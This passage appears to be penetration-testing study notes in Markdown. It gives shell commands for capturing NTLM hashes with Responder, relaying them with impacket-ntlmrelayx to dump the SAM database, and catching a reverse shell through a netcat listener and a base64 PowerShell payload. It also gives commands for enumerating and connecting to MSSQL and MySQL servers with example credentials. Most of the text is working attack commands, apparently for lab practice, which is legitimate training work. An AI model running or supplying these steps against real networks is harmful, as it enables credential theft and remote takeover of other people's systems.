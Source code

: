 * Capturing hashes using Responder:

  ```sh
  # we can capture hashes using Responder as well
  sudo responder -I tun0
  # this creates a fake SMB server

  # user tries to access a share that does not exist
  # and responder captures the hashes, which can be cracked

  # if we cannot crack the hash, we can relay it
  # using tools like impacket-ntlmrelayx or MultiRelay.py

  sudo vim /etc/responder/Responder.conf
  # set SMB to 'Off'

  # impacket-ntlmrelayx can be used to dump SAM database
  impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146

  # setup a listener
  nc -nvlp 9001

  # then we can use a PS reverse-shell from revshells
  # once victim authenticates to this server, we get a reverse shell
  impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <base64 string>'
  ```

## SQL Databases

* Interacting with common SQL databases in Linux:

  ```sh
  # to interact with MSSQL
  sqsh -S 10.129.20.13 -U username -P password123
  # we can use sqlcmd in Windows

  # to interact with MySQL
  mysql -u username -pPassword123 -h 10.129.20.13

  # for GUI apps for database engines
  # we can use tools like dbeaver
  ```

* Attacking SQL DBs:

  ```sh
  # enumeration
  nmap -Pn -sV -sC -p1433 10.10.10.125
  # we can also check ports 3306 and 2433

  # connecting to MySQL server in Linux
  mysql -u julio -pPassword123 -h 10.129.20.13

  # connecting to MySQL server in Windows
  sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30

  # connecting to MSSQL server in Linux
  sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h

  # we can also use mssqlclient.py
  mssqlclient.py -p 1433 julio@10.129.203.7 

  # MSSQL has 2 authentication modes
  # Windows authentication mode and mixed mode

  ```
